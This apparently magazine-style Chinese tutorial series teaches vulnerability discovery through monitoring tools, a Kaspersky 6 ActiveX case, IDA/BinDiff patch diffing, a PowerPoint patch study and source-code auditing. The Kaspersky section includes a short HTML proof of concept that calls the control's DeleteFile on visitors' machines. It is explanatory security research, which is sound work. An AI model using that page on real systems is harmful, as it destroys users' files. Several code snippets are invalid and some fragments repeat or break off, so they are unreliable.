网络通信监视是对软件以及系统在利用网络进行对外数据交换时，监视其通信行为以及通信内容。利用网络监视技术，我们可以清晰地知道软件或者操作系统在进行数据交换的时候的所有信息。图 1 就是一个利用 WireShark 监视登录 FTP Server 的结果。从中我们发现在监视的网络数据包中，直接出现了我们的登录用户名“anonymous”，这是由于 FTP 协议的格式导致用户信息没有被加密，从而利用数据包监视可以直接获得。但如果是一个其他的商业软件，也由于没有进行适当的数据信息加密，我们使用简单的网络数据包监视工具，就能轻而易举地发现它的机密信息，而这对于一个软件来说，就属于信息泄漏式的漏洞了。


图 1

利用网络通信监视技术，我们可以知道软件本来试图隐藏的那些数据信息。因为所有的网络软件非常依赖网络数据包的内容，所以一旦在对监视出的数据包格式分析比较清楚的情况下，有目的地修改这些数据包，那么这些网络软件在接受到这些伪造的数据包后，由于程序内部处理不当，就会引发诸如溢出、拒绝服务式的漏洞。

## 监视技术在发掘中的应用

正如上面所说的，监视技术在软件漏洞发掘中起到了一个发现敏感信息、辅助漏洞发掘的作用。对于监视技术的使用来说，除了要选择好用来监视的工具软件外，更要注意合理搭配使用多种监视技术。比如我们前面举过的一个例子，Slammer蠕虫是利用了SQL Server的一个缓冲区溢出漏洞。这个漏洞也正是因为SQL Server一旦收到一个标记头为XXXX的数据包，就会将其中的内容试图作为添加注册表的键值，在直接写入注册表时导致溢出出错。那么这个时候，如果单凭借网络监视，就很难发现这里还有一个写注册表的操作；而如果单纯利用注册表监视，又很难发现究竟是哪一个数据包可以令SQL Server执行对注册表的修改。从这个例子我们可以看出，合理地组合好监视技术的使用，对于我们发掘漏洞有很大的影响。

## 卡巴斯基删除任意文件漏洞发掘实例

卡巴斯基6在安装时会向系统本身注册很多ActiveX组件。在先前的学习中，我们知道对ActiveX组件进行漏洞发掘时，可以选择使用接口型的Fuzzer来帮助我们进行发掘。因此，我们就选择一个名为“AxKLProd60.dll”的库文件作为Fuzzing目标，使用COMRaider打开这个组件。发现只有一个KLProd60类中提供了很多函数接口，其中一个接口函数为DeleteFile。查看这个函数的原型是：“BOOL DeleteFile(char* FilePath)”。这是一个删除文件函数，为了弄清楚这个函数的具体作用以及作用范围，我们决定不先使用COMRaider进行暴力Fuzzing，改成使用一个网页来直接调用这个接口函数，并使用filemon对其进行文件操作监视。

首先是建立调用网页文件。因为任何组件都有一个注册组件号用来代表该组件，所以使用一段简单的JavaScript脚本，加上这个组件号就可以成功调用这个组件函数了。利用COMRaider打开AxKLProd60.dll，找到KLProd60类，点击它后，窗口右侧显示出一串数字字母组合，就是卡巴斯基6的组件号，为D9EC22E7-1A86-4F7C-8940-0303AE5D6756。有了组件号，我们就可以直接写出调用的网页文件代码了。

```html
<SCRIPT language=javascript>
function test(){
    bug.DeleteFile("E:\\1.txt");
}
</script>
<object classid="clsid:D9EC22E7-1A86-4F7C-8940-0303AE5D6756" name="bug">
</object>
<script>javascript:test();</script>
```

其中object是一个对象标签，classid属性指出了该标签所代表的对象是什么。我们这里放入的是卡巴斯基6的KLProd60组件号，这里就代表建立一个卡巴斯基6的KLProd60对象来操作，而name属性就是这个对象在整个网页中的名字。“bug.DeleteFile("E:\\1.txt")”表示调用卡巴斯基6的KLProd60对象中的DeleteFile接口函数，并给其传递一个参数“E:\\1.txt”。将这段代码保存成网页，打开filemon，点击filemon中的放大镜标志，让filemon开始监视所有的文件操作。Filemon开始监视后，用浏览器打开所保存的网页文件，等到网页完全打开后，再次点击filemon的放大镜标志停止监视。现在你会发现filemon的主窗口中充满了关于文件操作的所有记录，如图2所示。


图2

注意写满“SUCCESS”的一栏，这代表这程序访问文件的结果。我们在图中看到几乎所有行的Result一栏都是“SUCCESS”，唯独中间一行却是“NOT FOUND”，并且这个找不到的文件名称居然就是刚才传递给DeleteFile接口函数的参数。我们还发现在“NOT FOUND”这一行上面的几行，其Path一栏全部是“D:\Program Files\Kaspersky Lab\Kaspersky Anti-Virus 6.0\AxKLProd60.dll”，这意味着浏览器在打开这个网页后，成功建立了一个关于AxKLProd60.dll的对象，那么后面造成文件“NOT FOUND”，也就是没有找到文件“E:\1.txt”的结果必然是在对象创建之后的事情。我们回过头来看前面写的网页代码，object代表创建关于AxKLProd60.dll的KLProd60对象，这一步是成功的。成功后会去执行JavaScript中的脚本，也就是调用函数test，进入test函数后，只有一句代码就是“bug.DeleteFile("E:\\1.txt")”，这就意味着卡巴斯基6的AxKLProd60.dll组件中DeleteFile会对本地文件进行操作。

根据这个函数的名称看，这很可能是一个可以删除指定文件的函数。为了肯定这个猜测，我们可以在本地E盘下建立一个1.txt文件，再次打开我们建立的测试网页，果然E盘下的1.txt文件被自动删除了。现在，我们将这个测试网页放置在远程服务器上，使用不是服务器的另外一台电脑，在该电脑的E盘下建立名为1.txt文件，使用该电脑远程访问那个测试网页，我们发现1.txt文件还是被成功删除了。至此，我们可以肯定地说，卡巴斯基6的AxKLProd60.dll组件中DeleteFile接口函数存在一个可以被恶意用户删除他人主机上任意文件的漏洞。而这一切的发现全部得益于使用了filemon进行文件监视，如果我们只依靠Fuzzing技术来进行发掘，那么很可能就会错失发现这个漏洞的机会。

## 后发制人的补丁比较技术

一个产品软件，如果在编写代码阶段，甚至是架构阶段存在没有考虑的地方，或者考虑欠妥的地方，再加上对软件安全的不熟悉与不注意，后期又没有做什么有效的软件测试，就这样发布了，那么随之而来的就是不断被人发现漏洞，而漏洞又不断被人利用，引来正常用户一片唾骂，软件销量骤降。此时，开发商马上做出反应，一般第一个就是发布某某补丁，期待能弥补自己的过失。有些软件会强制用户打补丁，这样虽然不太尊重用户的选择，但还是保证了安全第一；有些软件就不是这样，在软件网页上发个通知，甚至连通知都没有，这样用户也很难知道自己所用的软件会存在安全隐患，引来病毒感染也是迟早的事情了。当然，并不是所有的补丁都是跟安全有关系，还有很多只是纠正软件的某个小错误，或者有一些补丁甚至可以为软件添加更多的功能。

补丁比较，学习他人经验的好方法。不知道你有没有过这样的经历：你一直在研究一个程序的漏洞，可是怎么研究都没有发现任何问题，忽然有一天，听说这个程序出现了某某补丁，原因是程序存在一个巨大的安全隐患。这个时候，你心里怎么想，是不是觉得不可能，自己那么费尽精力寻找都没有找到，怎么还会出来什么补丁。其实，每一种技术都有我们无法突破的地方，别人也许正好知道你所不知道的技术，所以他们能够发现这个漏洞。既然我们没有在第一时间找出这个漏洞，那么我们完全可以通过分析补丁补上的地方，来学习别人是如何发现这个漏洞的。掌握了这些我们曾经没有发现过的漏洞，在以后的发掘中我们就能够引起注意，不再错失这样的机会。

为了能够发现补丁究竟补上了什么，我们必须要有一种手段能够区别出程序打上补丁前后的区别，这种技术就是“补丁比较”技术。2004年的XCON大会上，HUME就补丁比较技术专门作了一次演讲。在演讲中，他专门使用了IDA来作为研究补丁比较的工具。这是因为，补丁比较技术一般针对的对象都是些二进制文件，我们这里特指二进制文件为我们想要分析的目标程序，例如exe程序、dll库文件、o文件等等，不是指所有的二进制文件。二进制文件的比较不像文本文档那样清晰可见。你可以作一个试验，在Windows系统下建立两个TXT文件，一个里面写1保存为1.txt，一个里面写2保存为2.txt，然后打开cmd命令行，在其中输入命令“fc 1.txt 2.txt”，可以清晰地看出fc比较命令准确反映出了两个TXT文件的区别。现在换成两个exe程序再进行一次对比，如图3所示。


图3

原本清晰的字符被一些莫名其妙的数字字母代替，这其实就是二进制独有的表达方式，因为二进制文件中的一些字符是不能被直观显示出来的，因为它不在ASCII码可显示范围内。这样你在做二进制比较时，虽然找到两个二进制文件之间的区别，但是根本区分不出这些有区别的地方哪些是补丁准确修改的，哪些又不是。如果你经常进行软件开发，会注意到早在微软的编程工具中就出现过一些图像化的二进制比较工具，它们不再是傻瓜化地区分二进制文件之间的差异，而是使用图像来表达。VC6中自带的WinDiff就是这样一款图形化的二进制比较工具，如图4所示。

怎样使用IDA进行补丁比较分析。为了简单起见，我们直接从代码上进行打补丁操作，其实那些补丁包的作用与此相同，只不过它们是对二进制文件进行修改而已。在下面的代码中，左侧的代码是原始代码，右侧的代码是补丁后的代码。

```c
void first()
{
    printf("1");
}

void main()
{
    int a=100/a;
    first();
}
```

```c
void first()
{
    printf("1");
}

void second()
{
    printf("2");
}

void main()
{
    int a=100/a;
    if(a>0)
        first();
    else
        second();
}
```


图4

在WinDiff里，窗口左侧有了一些矩形框，并且出现一些彩色块区，这就是WinDiff进行图像化区分两个二进制文件的方式，红色代表其中一个文件，黄色代表另外一个文件，这样可以清晰看出两个相互比较的文件间的区别，而右侧的这些看似乱码的东西就是两个文件的文本式显示。虽然我们有了图像化的二进制比较工具，但它的功能还不是那么令人满意，因为我们是可以直观看到两个文件间的区别，但是很难知道这些区别代表着什么。于是，IDA作为一个出色的反汇编软件又被我们拿来进行二进制文件的比较分析了，因为它有自动分析代码的功能，又可以将分析结果图形化显示，这两个功能使得它在补丁比较技术上又一次成为了最受欢迎的工具软件。

那么使用IDA究竟应该如何进行补丁比较分析呢？我们用VC6编写一段简单的程序来演示。

补丁前后的区别在于，程序多加了一个if判断和多定义一个函数second。现在分别编译这两段代码——一个为1.exe，一个为2.exe。先用IDA打开1.exe，等IDA程序自动分析完毕后，同时按下CTRL和F12键，会出现如图5所示结果。这就是1.exe程序的一个函数使用关系图，每一个小矩形都代表了一个函数，它可以反映出一个程序全部的内部结构。我们既然要发现补丁修改的地方，就必须要获得这张图，然后利用这张图与另外一个程序的函数使用关系图做比较，才能发现它们之间在打上补丁前后的差异。保存这张图片为1.bmp。再用IDA打开2.exe程序，得到如图6所示的结果。


图5


图6

现在，我们可以非常清楚地看出这两个程序之间的区别，但还不太清楚这些五颜六色的图标代表什么意思。点击图标，在上述的函数使用流程图中，会在每个矩形框中显示出函数的具体名称，此时会发现黑色的矩形框就是我们一般自定义的函数以及main函数，这里代表的就是自定义的first、second还有main函数。回过头看1.exe的函数使用关系图，我们发现1.exe的三个黑色的矩形框分别在不同的位置，相距很远没有直接连接的线段，而2.exe的函数使用关系图中，有三个黑色矩形框在一起，并且中间使用了线段连接。点击让这一部分显得更清晰一点，如图7所示。原来从main函数出来后会分成两个方向，一个指向函数sub_401010，一个是sub_401000，这与我们代码中if判断语句的作用完全一致。至此，我们利用IDA完全分析出来了这个补丁修改的地方，明白了补丁存在的作用。

IDA将直观的图形化显示与代码层面的分析结合起来，让我们能够较为简单地找出补丁补上的安全隐患；分析这些被打补丁的地方，我们完全可以找出漏洞出现的原因，积累这些经验是我们学习发掘技术不断向前的动力。

## Bindiff在发掘中的使用

由于补丁是一种在软件开发出来之后的弥补手段，所以这些被打上补丁的程序一般都是些打包后的文件，也就是说我们看不到源代码层面上是怎样打上补丁的。通过前面的学习，我们知道对于打包后的程序，最好的分析方法是通过逆向技术来获得程序的结构信息，那么我们完全可以通过对比程序在打上补丁前后的差异来知道补丁究竟弥补了什么安全隐患。但对于一般人而言，逆向技术的复杂性早已经令人却步，如果再加上要分析茫茫代码中那一点点小小的补丁，这确实并非一件易事。还好，sabre-security.com提供了一个著名的二进制比较插件BinDiff，用于IDA。我们几乎不需要做任何手工的分析，完全可以让它自动分析出目标程序被打补丁的地方。听起来这是多么激动人心的一件事情，我们的漏洞发掘终于可以进入一个“纯自动化”的时代了。下面，我们将详细学习如何安装使用BinDiff插件。

首先从sabre-security.com下载BinDiff，因为BinDiff使用到了Java，所以需要下载Java动态库环境，可以从http://java.sun.com下载JRE安装包。还需要安装微软的.NET库，这一点一定要注意。将两个库文件安装好后，再安装BinDiff。安装过程中只需要注意选择好IDA所在路径，因为BinDiff将释放bindiff2.plw文件到IDA的插件目录，这个文件就是BinDiff的插件文件。安装完毕后，我们用IDA先打开没有被打补丁前的目标程序，这里我们演示的程序名称为testBinDiffold.exe，用一个old单词来表示这是没有打补丁的程序。等待IDA完全打开这个文件后，保存IDA的分析结果，也就是保存成testBinDiffold.idb。接着用IDA打开被补丁后的目标程序，我们这里的程序名称是testBinDiffnew.exe。现在，我们有两种方式可以打开BinDiff，第一种是选择IDA菜单栏中的“Edit”选项，然后在下拉菜单中找到“Plugins”，选择该菜单后会出现BinDiff的选项；另外一种是同时按下CTRL键和数字6键，同样能呼唤出BinDiff的主界面，如图8所示。


图7


图8

一般来说，BinDiff的默认安装是不需要进行任何设置的，所以我们现在可以直接点击“Diff Database against”，出现一个文件选择对话框。记住，这里要选择的文件就是我们刚才保存的那个testBinDiffold.idb文件，因为BinDiff将对这两个IDA自动分析出的数据库文件进行对比分析。选择好后，程序将开始进行自动对比分析，这个过程根据电脑的配置不同，将会持续一定时间。分析结束后，在IDA主界面上会出现几个窗口，如图9所示。


图9

其中带有大写字母“B”的这几个窗口就是BinDiff的分析结果窗口。由于我们想要找到程序被打补丁的地方，因此就主要察看“Changed Functions”窗口。可以看到窗口中显示有两个函数出现了变化。虽然通过这个窗口，我们能知道目标程序确实在补丁前后出现了差异，但是单凭借简单的函数名还不能够看到具体出现差异的代码，也无法进行有效的逆向分析。BinDiff值得称道的一个强大功能就是会将这种代码层面上的差异图形化，用更加生动具体的流程图来反映出枯燥代码中的种种区别。

在“Changed Functions”窗口中选择想要查看的区别函数，鼠标右击该行选择“Visual Diff”，BinDiff会弹出一个新的窗口，如图10所示。


图10

这个新窗口就是BinDiff的GUI。在这个窗口中可以看到，目标程序中出现差异的地方完全被清晰的流程图显示了出来，一眼就能看出程序的补丁究竟弥补了什么安全隐患。上面的流程图显示出，我们现在分析的这个目标程序在一个判断指令之后，出现了变化，左边的图少了跳转成功后如何处理的代码段，而我们的目标程序的源代码也确实就是这样写的。

```c
void main()
{
    int a=100;
    if(a>0)
        first();
    // else second(); 这句被注释掉了，所以少了一段成功跳转后的处理代码
}
```

通过上面的使用，我们发现BinDiff确实能够帮助我们自动分析程序补丁修改的地方。结合IDA的分析结果以及BinDiff的流程图，几乎毫不费力地就能知道程序打补丁前后的差异。通过分析这些差异，我们很快就能知道程序曾经出现过什么问题，从中学习到我们没有发掘出的漏洞特征。

## PowerPoint获取非法参数受控漏洞挖掘实例

PowerPoint的获取非法参数受控漏洞，起因是因为PowerPoint在读取PPT文件时，会将文件中的一些数值当作一个参数传递给程序，然后程序会利用这个参数作为指针来初始化一些类函数，一旦这些参数被人为修改就会导致PowerPoint被控制，从而获得执行恶意代码的机会。这个漏洞因为一定原因没有被公布出来，微软的官方站点也只是说PowerPoint存在一个安全隐患，建议用户下载补丁包。我在下载安装补丁包前，使用Fuzzing技术初步定位到了问题存在的地方，但是为了更加肯定问题是不是出现在我发现的地方，结合IDA的自动分析功能，我手工对比打补丁前后的PowerPoint程序，终于发现了导致这个漏洞出现的准确位置。你一定会问我为什么不使用BinDiff来自动对比发现打补丁的地方吧？其实，BinDiff虽然功能异常强大，但它也只能对比发现出一定数量的代码，如果程序过大就不能正常工作。但是我们可以结合IDA本身的“Ref”即参考引用功能，同样可以找到补丁修改的地方。

用IDA打开没有打补丁前的PowerPoint，找到我们通过Fuzzing确定的可能存在问题的地方。这个地址很好确定，就是找到Fuzzing中显示PowerPoint出错的地址，这里出错的地址是3001A50C。转到这个地址后，发现这个地址处在一个函数的范围内，函数地址为3001A447。IDA在每个函数的入口处有一些标志，其中有一个像“R”的图标，就是我们要找的“Ref”功能标志，点击它，IDA会将所有引用了3001A447函数的地址全部显示出来，如图11所示。可以看到有六处地址引用了3001A447函数，并且这个函数主要是对ebp+0Ch中的值进行对比，主要是与4或者7进行对比后，来进一步执行代码的。关闭这个窗口，保存本次分析结果，我们要给PowerPoint打上补丁。

打上补丁后，再次使用刚才引起PowerPoint出错的PPT文件进行测试，发现PowerPoint还是出错了，不过地址有所改变，补丁果然有一定作用。为了更加准确知道补丁究竟对PowerPoint做了什么修改，用IDA打开补丁后的PowerPoint程序，转到刚才出错的地址上，与补丁前一样，这次出错的地址还是在一个函数里，地址是3009B7C8。这个函数不像前面的3001A447函数，虽然由于补丁的修改可能导致函数地址发生改变，但这个函数中的代码改动太大，如图12所示。左边的图是补丁前的，右侧是3009B7C8函数的截图，我们看到用来比较的寄存器值明显不一样，后面执行代码中的变化更大，这使我们很难相信这是由于补丁造成的结果。


图11


图12

此时，我们要使用查找功能才能找到改变地址后的3001A447函数。由于在原始的3001A447函数中“call dword ptr [eax+70h]”指令出现得比较频繁，可以选择它为关键字来进行查找。按下Alt+T组合键，出现查找对话框，在查找内容中输入“call dword ptr [eax+70h]”，选择“Find all occurrences”，即查找所有可能出现的地方。在地址3001A754处，我们终于找到了这个“原始”的3001A447函数，还是点击“Ref”图标，IDA显示该函数的引用也是6次，这与3001A447函数是一致的。现在，我们终于知道，原来PowerPoint的补丁改变了程序的运作流程，将处理来自PPT的数据放到了函数3009B7C8里。虽然这个补丁有效避免了PowerPoint被恶意PPT控制的威胁，但却又引发了一个DOS（拒绝服务）漏洞的出现。

前置知识：无

关键词：漏洞、代码审计、溢出漏洞

## 黑客漏洞发掘技术内幕系列之十一：最有效的漏洞发掘技术：代码审计

文／图 爱无言

通过前面不断的学习，你一定一次次被那些出色的漏洞发掘技术所震撼，觉得它们一个比一个好用，仿佛学会它们就会指哪打哪，无坚不摧。你是正确的，前面那些出色的技术都是一个个杰出的黑客，在自己辛苦发掘漏洞中的经验总结，学会这些技术，就如同站在巨人的肩膀上，可以看得更远，发现更多的漏洞。

但是，我们始终不能忘记一点，前面的工作是那样的艰难，因为我们没有软件的原始代码，我们不得不在黑暗中摸索前进。并不是所有的情况下，我们都这样不幸运。如果我们能够获得要研究的软件原始代码，那岂不是说，我们发掘漏洞的工作会简单许多。甚至可以说，如果你就是这个软件的开发者，或者测试人员，你可以更多地获得这些可能是商业机密的代码。有了宝贵的代码，我们不必再使用那些复杂的技术去进行发掘工作，那样只会把简单的事情复杂化，我们需要一种新的技术来帮助我们完成使命，这项技术就是“代码审计”。

“审计”这个词汇体现出了这项技术的两个非常重要的方面。一个方面是从“代码审计”技术的使用者来讲，要求负责审计代码的这个人，或者是这个人使用的某个软件，必须要对代码的安全以及结构合理性等方面有着严格的把关和检查，不能非常简单潦草地对代码进行一般性检测，发现有没有诸如变量名太长这样无关紧要的毛病就行。审计的目的是要用绝对的严格标准来避免不该发生的事情，所以作为审计者本身而言，就要有非常丰富的经验；对于审计软件就要有较高的审计能力。第二个方面则是对审计对象而言，我们使用代码审计，就是不但要查找出较为明显的错误，例如溢出错误、下标越界之类，对于那些不明显的，或者与编程人员习惯、逻辑思想有较大关系的错误也要将其揪出来。

我们看如图1所示的代码。如果不做解释，你一定觉得上面的两段代码没有错误，但事情不是这样的。左面的代码是某软件第一次开发时的代码，而右侧则是二次开发时的代码。很显然，两次使用的对象指针名称不一样，一个是 pHandle，一个是 Handle。由于程序员的个人习惯，前者的对象指针名称符合微软使用的命名规则；但后者则是程序员自己的习惯。本来这不影响任何事情，可是在程序最后，有一个释放对象指针的语句是这样的“delete Handle;”，很显然，释放的对象只是 Handle，我们的 pHandle 并没有释放掉，这会导致程序分配一块内存给 pHandle，可程序并没有回收这一块内存。也许你会说如果内存很大，这不会影响什么，可是我们的这个软件是一个用于机场工作人员进行客机实时导调工作的，当程序每一次运行申请一块内存却不释放的时候，将会造成计算机死机，工作人员无法实时导调客机的飞行情况，结果是非常危险的。由此可以看出代码审计是多么重要，它对于一个要发布的软件来讲，是一个确定软件质量的重要环节。在源代码上，我们会发现很多难以用其他外部测试软件发现的缺陷，甚至是漏洞。但是即使这样重要的软件质量检查手段，很多软件开发商也没有认真地去做。因此，作为漏洞发掘者的我们，完全可以使用这种技术手段为它们做一次免费的审计检查。

```cpp
DeviceMem *pHandle;
pHandle = new sizeof(DeviceMem);
pHandle = DOMem; ....

DeviceMem *Handle;
Handle = new sizeof(DeviceMem);
Handle = DOMem; ....
```

图1

## 选择一款出色的代码查看软件

代码审计是一项非常耗费精力的工作，除非使用那些已有的自动审计软件。即使这样，在分析这些软件自动生成的审计结果的时候，也要去翻看那些密密麻麻的代码。所以，在我们进入学习代码审计技术之前，我们必须要先选择好一款出色的代码查看软件来帮助我们。

- 1. NotePad++
  - 我们前面提到过这个软件，这里我们同样可以用它来查看软件的源代码，因为 NotePad++ 针对不同的语言代码有不同的样式模板，这将帮助我们方便地查看代码，并对代码中的数据类型进行直观的划分。
  - 以打开一个 VC6++ 编写出的代码为例，如图2所示，NotePad++ 会将各种语言都做成一个个模板，在打开某种语言源代码时，只要选择相应的模板，就可以将语言中的各种结构使用不同的颜色表示出来，例如 VC6++ 中的注释语句会被显示为绿色，而代码主体会被显示为棕色。

图2

NotePad++ 还有一个出色的功能，对于代码中函数实现的部分，会利用一定的查找方式，将这些函数实现体遍历出来，显示在窗口的右侧。这种功能能帮助我们更好地定位到程序的关键函数上，有利于代码审计的初始化工作。但 NotePad++ 一般只用来看单个代码文件，不支持大型代码工程。

- 2. Ctags
  - Ctags 是一个 Linux 下用于查看大型代码工程的开源软件。在 C 以及 C++ 语言编写的代码中，能够在扫描代码后自动产生关于目标代码的标记定位信息，有利于我们对大型代码工程中的各个变量以及函数体有个明确的定位。
  - Ctags 可以使用光标跟踪某个标记的来源，这一点很类似我们下面要说的 Insight。

- 3. Insight
  - Insight 是 Windows 下查看大型代码工程的优秀软件，Insight 使用高亮显示、定位代码中各个标记信息，方便使用者查看和跟踪标记来源。
  - Insight 能利用树型结构来划分代码结构，更加清晰地展示了目标代码的编写流程和层次。

## 自动化代码审计

顾名思义，自动化代码审计是一个利用已经开发出来的各种代码审计软件来对目标代码进行审计工作。自动化代码审计是软件开发测试中非常重要的一环，常常结合在程序员编写完成代码之后、准备转化成产品代码之前，以及软件再次发布、升级、修改等二次开发环境中。自动化代码审计要求作为主体的审计软件一定要有较好的代码审计功能，要分析出那些明显的漏洞之外，对于潜在的漏洞也必须要有良好的检测。但是，这一点对于现在的自动化审计软件来说非常难以实现。

原因有两个：一是代码审计的难度较大，代码中存在的漏洞各式各样，很难一次性全部概括起来；二是将审计工作转换成软件自动实现的设计思想较难。每一种漏洞的检测方式各不相同，不是一个算法就能全部完成的，这就要求审计软件的开发者必须要在精通漏洞模式的情况下，使用出色的算法以及软件工程思想将其实现，这对开发审计软件的公司来说是一个挑战。

自动化审计是一个非常难以完美实现的技术，但是这里不乏出现众多优秀的自动化审计软件。这些产品对于那些疏于做代码审计的软件来说，绝对可以成为我们发掘漏洞最为简单的捷径。而对于那些大型的代码工程，使用自动化审计也是非常方便的，有利于我们初次对目标代码的漏洞发掘工作，在自动化基础上，更进一步使用手工审计技术。准确度高，往往能在庞大的代码工程中，很快找出这些潜在的安全隐患。同时，也适应于初入发掘漏洞的人，只要知道漏洞的特征，就有希望发掘出漏洞。

“以点到面”的方法是一个可以扩充的方法，使用这种方法的人，需要不断积累识别漏洞在代码中的表现的经验，因为同一种漏洞也许在代码中的表现不会相同。更多的时候，漏洞的表现隐藏得很深，我们需要耐心分析每一个出现在“点”代码中的变量，这样才能充分分析到代码的构造流程，排除那些不是漏洞的“点”，再在有漏洞的“点”中找出哪些“点”的漏洞能够非常简单地利用，哪些需要什么条件，哪些又比较难以利用，因为漏洞发掘最终的目的是为了能够被我们利用。

### 手工检查技巧

所有的技术都是一个经验积累的过程，代码审计技术也不例外。自动化审计软件的缺陷在于，只能发现那些较为明显的、已知的漏洞，即使我们有出色的编程功底，也难以让软件自动分辨出代码中那些隐藏的“暗礁”。一个庞大的代码工程，其中的逻辑性以及层次性，很难用简单的办法来识别，这个时候，手工检查就成为我们面对目标代码必须要使用的技术了。

对于漏洞发掘者来说，有源代码的好处在于能更加直观地看到目标程序的工作流程，因此我们必须要有一个清晰的思路。发掘代码中的漏洞可以先从那些敏感的漏洞入手，如溢出漏洞等，再分析代码中较为隐蔽的问题，如整数使用的不当、代码逻辑错误等。我们要更多地发现那些利用逆向技术之类无法发现的或者很难发现的漏洞，这样才能充分利用代码带给我们的“便利条件”。

有了清晰的思路，接下来就是如何实施。我们会出现两种不同的实施方式，下面我们就分别对这两种方法加以介绍。

- 1）以点到面的方法

第一种就是利用“以点到面”的方式来实施漏洞发掘工作。“以点到面”就是将漏洞的特征或者引发此类漏洞的敏感函数、变量等作为我们首先要寻找的“点”。在目标代码中找到这些“点”后，再分析出现在“点”中那些不能直接确定的变量，利用回溯法扩大查找面，查找“点”中的不确定变量，直至确定为止，这就是“以点到面”的发掘方法。

“以点到面”的方法是一种较为直接的方法，将漏洞先做一个特征取值。这种方法的好处是快速、准确度高，往往能在庞大的代码工程中，很快找出这些潜在的安全隐患。

理论了解完，我们来实际操作一下这种“以点到面”方法在发掘中的实际使用。我们下面这段出自微软 MFC 库的代码。

```cpp
BOOL CFileFind::FindFile(LPCTSTR pstrName /* = NULL */, DWORD dwUnused /* = 0 */)
{
    UNUSED_ALWAYS(dwUnused);
    Close();
    m_pNextInfo = new WIN32_FIND_DATA;
    m_bGotLast = FALSE;
    if (pstrName == NULL) pstrName = _T("*.*");
    lstrcpy(((WIN32_FIND_DATA*) m_pNextInfo)->cFileName, pstrName);
    m_hContext = ::FindFirstFile(pstrName, (WIN32_FIND_DATA*) m_pNextInfo);
    if (m_hContext == INVALID_HANDLE_VALUE)
    {
        DWORD dwTemp = ::GetLastError();
        Close();
        ::SetLastError(dwTemp);
        return FALSE;
    }
}
```

这段代码其实就是我们在逆向技术一文中提到的 CFileFind 库中的 FindFile 函数的实现代码。我们现在主要关注 `lstrcpy(((WIN32_FIND_DATA*) m_pNextInfo)->cFileName, pstrName);` 这一行代码。根据对溢出漏洞的了解，凡是 `strcpy`、`memcpy`、`lstrcpy`、`sprintf` 这些函数都是溢出漏洞的敏感函数，使用不当往往会造成程序出现较大的溢出隐患。

函数就是我们所要首先查找的“点”。利用 NotePad++，打开 FileFind.cpp 文件后，查找这些敏感“点”，定位到上面的这段代码，看到这里有一个函数 `strcpy`，这就是我们要找的“点”。有了“点”，我们开始回溯“点”代码中出现的所有变量，以确定这个“点”是不是一个真实的漏洞。

“strcpy”函数的两个参数，一个是 `cFileName`，这是目的参数；一个是 `pstrName`，这是来源参数。我们现在要做的就是对这两个参数的地址空间大小做一个判断。如果 `pstrName` 指向的空间大于 `cFileName` 指向的地址空间，我们可以判断出这是一个存在典型溢出漏洞的代码；如果 `pstrName` 指向的空间小于或者等于 `cFileName` 指向的空间，则这段代码是安全的……

对于 `pstrName`，我们利用在 NotePad++ 中的向上查找，可以看到是在 `CFileFind::FindFile(LPCTSTR pstrName /* = NULL */, DWORD dwUnused /* = 0 */)` 这行中出现，这意味着 `pstrName` 参数是一个来自于用户的外部变量……

对于 `cFileName`，我们没有利用向上查找，因为我们注意到 `cFileName` 是直接从 `m_pNextInfo` 变量中引用出来的，那么我们要分析 `m_pNextInfo` 变量才能知道 `cFileName`……

```cpp
typedef struct _WIN32_FIND_DATAA {
    DWORD    dwFileAttributes;
    FILETIME ftCreationTime;
    FILETIME ftLastAccessTime;
    FILETIME ftLastWriteTime;
    DWORD    nFileSizeHigh;
    DWORD    nFileSizeLow;
    DWORD    dwReserved0;
    DWORD    dwReserved1;
    CHAR     cFileName[MAX_PATH];
    CHAR     cAlternateFileName[14];
#ifdef _MAC
    DWORD    dwFileType;
    DWORD    dwCreatorType;
    WORD     wFinderFlags;
#endif
} WIN32_FIND_DATAA, *PWIN32_FIND_DATAA, *LPWIN32_FIND_DATAA;
```

在这个定义中，我们可以找到 `cFileName` 其实是一个字符数组，它的大小是由 `MAX_PATH` 这个宏定义确定的。为了弄清楚 `MAX_PATH` 的值，再次利用系统搜索功能查找 `MAX_PATH` 的原始定义。最后，我们在 `WINDEF.H` 中找到 `#define MAX_PATH 260`，由此确定了 `cFileName` 参数原来指向的是一个只有 260 字节大小的空间……

```cpp
char is[20];
memset(is, 0, strlen(is));
size_t index;
index = strlen(is);
printf("%d", index);
```

这段代码非常简单，主要是利用 `strlen` 函数获得 `is` 字符数组大小后，将大小赋值给 `index`，然后打印 `index`。代码看起来没有任何问题，但如果将这段程序放在 VC6++ 中编译执行，会发现程序出错了，出现一个警告内容是“XXXX 指令指引的内存 XXXX，该内存不能为 write”……其实引起这个错误的人不是你，而是 VC6 编译器本身……

```cpp
typedef struct _WIN32_FIND_DATAA {
    DWORD    dwFileAttributes;
    FILETIME ftCreationTime;
    FILETIME ftLastAccessTime;
    ...
}
```

……编译器这样做的目的是为了防止发生缓冲区溢出，可是有的时候，编译器这样擅作主张会导致程序在运行期间出现意外的错误。这样的错误对于使用“以点到面”的发掘方法，你根本不会想到，因为它没有非常特殊的地方足以让我们将其准确定性。更多的时候，一些代码的编写者会使用不同的编写风格，这也会增加我们查找漏洞的难度。

### 2）以面到点的方法

“以点到面”的发掘方法有它不够完美的地方，对于代码中的逻辑错误引发的漏洞更难分析到，所以我们想到了另一种方法，就是利用对代码进行整体性的阅读，再针对局部某个功能或者执行流程进行详细分析，使用编程者的思想来阅读代码，然后找出代码编写中没有想到的情况，从而来发现漏洞，或者发现编写者的逻辑问题，试图发掘出程序漏洞，这种分析漏洞的方法我们称之为“以面到点”的方法。

由于“以面到点”的分析方法比较完整地勾画出代码编写者的全部思想流程，创建出一个被我们称之为“Data Flow Diagrams”的程序数据流程图，利用这个图清晰地反映出代码编写者的全部构架，有利于我们将代码分析得更为彻底，将上下关联的部分全部连接起来，发掘出那些隐藏较深的漏洞。

这种方法对于逻辑漏洞是最好的发现方法。由于逻辑漏洞不具有什么明显的特征，这样在使用“以面到点”的方法构建出代码流程图后，可以仔细分析某段代码的意义，然后结合上下文环境，来看代码的实现是否符合程序本身的初衷，列举出那些相反的方面，来看程序代码能否正常工作，从而发现代码的逻辑错误。我们再看一个例子代码。

```c
int sLength;
size_t index;
int buflen=50;

char *buf=argv[1];
printf("%s",buf);
index=strlen(buf);

printf("%d",index);
while(index<buflen&&buf[index]!="\0") {
    index++;
    sLength=strlen(buf)-1;
}
```

```c
index++;
sLength=strlen(buf)-1;
}
```

